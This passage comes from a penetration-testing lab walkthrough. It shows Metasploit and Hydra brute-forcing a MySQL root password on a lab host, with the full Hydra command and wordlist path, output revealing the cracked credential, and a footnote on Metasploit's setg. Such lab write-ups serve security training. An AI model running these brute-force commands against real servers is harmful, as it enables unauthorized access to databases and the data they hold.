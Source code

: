 <strong>[+] 192.28.228.3:3306     - 192.28.228.3:3306 - Success: 'root:catalina'
</strong>[*] 192.28.228.3:3306     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
</code></pre>

Here we got the password for root.

We can do the same thing using Hydra:

<pre class="language-sh"><code class="lang-sh">root@attackdefense:~# hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.28.228.3 mysql
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-29 09:27:55
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1009 login tries (l:1/p:1009), ~253 tries per task
[DATA] attacking mysql://192.28.228.3:3306/
<strong>[3306][mysql] host: 192.28.228.3   login: root   password: catalina
</strong>1 of 1 target successfully completed, 1 valid password found
</code></pre>

[^1]: setg is used to declare the rhosts as global so that we don't have to specify it again and again in a single session.
